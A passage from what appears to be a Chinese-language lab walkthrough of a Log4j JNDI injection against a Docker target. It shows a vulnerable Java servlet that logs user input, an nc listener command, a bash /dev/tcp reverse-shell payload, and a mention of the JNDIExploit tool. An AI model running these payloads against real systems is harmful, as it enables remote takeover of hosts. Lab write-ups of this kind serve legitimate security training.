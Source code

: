 ```java
    String name = req.getParameter("c");
    System.out.println(name);
    logger.error(name);
    resp.setContentType("text/html");
    resp.setHeader("Content-Type", "text/html; charset=utf-8");
    PrintWriter out = resp.getWriter();
    out.println("<html><body>");
    out.println("<h1>可恶！又被你装到了！</h1>");
    out.println("</body></html>");
 }

  public void destroy() {
 }
}
```

* 第七步：运行结果。由于docker搭建靶机，只有shell窗口，因此看不到靶机弹出计算器的效果。 

  ![image](漏洞利用\image.png)

* 第八步：反弹shell

攻击机监听本地端口

```bash
nc -lvvp [port]
```

构造payload

使靶机执行：

```bash
bash -i >& /dev/tcp/[ip]/[port] 0>&2
```

①可以使用如上方式的java恶意类执行。

②也可以使用针对JNDI注入开发出来的攻击工具JNDIExploit-1.2-SNAPSHOT.jar ，下载地址如下。
